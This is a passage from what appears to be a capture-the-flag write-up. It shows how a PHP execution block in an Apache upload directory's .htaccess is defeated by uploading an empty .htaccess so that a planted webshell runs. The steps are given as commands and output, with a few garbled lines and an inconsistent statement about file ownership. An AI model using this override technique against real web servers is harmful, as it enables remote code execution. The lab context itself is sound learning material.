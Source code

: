 ![](/img/image-20220922152748652.png)

#### Exploit by Stomping .htaccess

What's likely blocking this file on an Apache webserver is an
`.htaccess` file. This file defines custom rules for how files are
handled in the current directory. With root, I can drop into the docker
container and look at that file:



    root@seventeen:~# docker exec -it manager6000 bash
    root@8df6395c368f:/var/www.md# cat oldmanagement/files/31234/.htaccess 
    php_flag engine off
    Options -Indexes
    ErrorDocument 403 "<h1>Forbidden</h1>"
    RedirectMatch 403 ^/var/www/oldmanagement/files/31234/?$
    RedirectMatch 403 ^.*\.php$



Anything ending in `.php` will get a 403 Forbidden HTTP response code.
and `ErrorDocument`.

Unfortunately for the `.htaccess` file is writable by www-data:



    root@8df6395c368f:/var/www.md/oldmanagement/files/31234# ls -la
    total 688
    drwxr-xr-x 3 www-data www-data   4096 Sep 22 19:30 .
    drwxr-xr-x 3 www-data www-data   4096 Sep 22 19:30 ..
    -rw-r--r-- 1 www-data root        161 May 29 15:48 .htaccess
    -rw-r--r-- 1 www-data root     684399 May 10 05:05 Marksheet-finals.pdf
    drwxr-xr-x 2 www-data www-data   4096 Sep 22 19:30 papers



Since the file is owned and writable by root, I can overwrite it by
uploading a new one. I'll create an empty file:



    oxdf@hacky$ touch .htaccess



I can upload that just like any other file:

![](/img/image-20220922153752646.png)

From my root shell, I can see it's empty:



    root@8df6395c368f:/var/www.md/oldmanagement/files/31234# cat .htaccess
    root@8df6395c368f:/var/www.md/oldmanagement/files/31234# ls -la .htaccess 
    -rw-r--r-- 1 www-data www-data 0 Sep 22 19:37 .htaccess



Now the webshell works:
